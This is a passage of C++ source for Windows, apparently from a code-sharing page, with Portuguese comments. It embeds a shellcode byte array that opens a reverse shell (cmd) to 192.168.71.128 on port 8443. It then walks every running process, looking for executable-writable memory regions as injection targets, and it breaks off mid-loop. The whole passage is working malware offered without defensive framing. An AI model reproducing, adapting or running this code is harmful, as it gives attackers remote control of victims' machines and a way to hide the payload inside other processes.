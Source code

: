 ```cpp
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x20\xfb\xc0\xa8\x47\x80"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

int main() {
    MEMORY_BASIC_INFORMATION mem; //estrutura para armazenar informacoes
    PROCESSENTRY32 pe32; // estrutura para armazenar o snapshot
    LPVOID baseAddress = 0; // valor inicial para base address de cada processo
    HANDLE ph; // handle para o processo
    HANDLE hSnapshot; // handle para o snapshot
    BOOL proc;
    pe32.dwSize = sizeof(PROCESSENTRY32); // inicializando o PROCESSENTRY32

    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot) return -1;

    proc = Process32First(hSnapshot, &pe32);

    // inicio do loop entre os processos
    while (proc) {
        ph = OpenProcess(MAXIMUM_ALLOWED, false, pe32.th32ProcessID);
        if (ph) {
            printf("Procurando no processo %s\n", pe32.szExeFile);
            // loop entre todos os blocos de memoria alocados pelo processo
            while (VirtualQueryEx(ph, baseAddress, &mem, sizeof(mem))) {
                baseAddress = (LPVOID)((DWORD_PTR)mem.BaseAddress + mem.RegionSize);
                // checando se o bloco tem permissao RWX
                if (mem.AllocationProtect == PAGE_EXECUTE_READWRITE) {
                    printf("Memoria RWX encontrada em 0x%x \n", mem.BaseAddress);
```